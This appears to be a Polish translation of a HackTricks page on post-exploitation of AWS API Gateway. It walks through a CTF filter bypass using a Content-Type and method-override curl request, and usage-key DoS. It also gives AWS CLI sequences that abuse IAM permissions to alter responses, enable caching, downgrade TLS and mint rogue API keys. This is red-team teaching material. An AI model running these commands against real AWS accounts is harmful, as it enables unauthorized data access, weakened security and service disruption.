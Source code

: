 # AWS - Wykorzystanie po eksploatacji bramy API

<details>

<summary><strong>Zacznij od zera i stań się ekspertem AWS Red Team dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Brama API

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych interfejsów API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, odsłonić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń zezwalającą na wszystkie połączenia.\
Następnie z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego i w ten sposób wywołać bramę API, która wcześniej nie była ujawniona.

### Ominięcie przekazywania treści żądania

Ta technika została znaleziona w [**tym rozwiązaniu CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Jak wskazano w [**dokumentacji AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) w sekcji `PassthroughBehavior`, domyślnie wartość **`WHEN_NO_MATCH`**, podczas sprawdzania nagłówka **Content-Type** żądania, przekaże żądanie do backendu bez żadnej transformacji.

Dlatego w CTF brama API miała szablon integracji, który **uniemożliwiał wyciek flagi** w odpowiedzi, gdy żądanie było wysyłane z `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jednak wysłanie żądania z **`Content-type: text/json`** uniemożliwiłoby filtrowanie.&#x20;

Wreszcie, ponieważ brama API zezwalała tylko na `Get` i `Options`, było możliwe wysłanie dowolnego zapytania do dynamoDB bez żadnych ograniczeń, wysyłając żądanie POST z zapytaniem w ciele i używając nagłówka `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plany użycia DoS

W sekcji **Enumeracja** można zobaczyć, jak **uzyskać plan użycia** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użycia **miesięcznie**, możesz go **po prostu użyć i spowodować DoS**.

Klucz **API** musi być po prostu **dołączony** do nagłówka **HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą odpowiedź bramy, aby zawierała niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają poufne informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Ujawnienie poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **modyfikować istniejący etap bramy API w celu przekierowania ruchu do innego etapu lub zmiany ustawień buforowania w celu uzyskania nieautoryzowanego dostępu do danych buforowanych**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do danych z pamięci podręcznej, zakłócanie lub przechwytywanie ruchu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody interfejsu API Gateway REST w celu dodania niestandardowych nagłówków lub szablonów odpowiedzi, które ujawnią wrażliwe informacje lub wykonają złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Ujawnienie poufnych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów interfejsu API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Atakujący posiadający uprawnienia `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia interfejsu API Gateway REST w celu wyłączenia logowania lub zmiany minimalnej wersji TLS, co potencjalnie osłabia bezpieczeństwo interfejsu API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Oslabienie bezpieczeństwa interfejsu API, potencjalnie umożliwiające nieautoryzowany dostęp lub ujawnienie poufnych informacji.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący posiadający uprawnienia `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, powiązywać je z planami użycia, a następnie używać tych kluczy do nieautoryzowanego dostępu do interfejsów API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów interfejsu API, obejście kontroli bezpieczeństwa.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
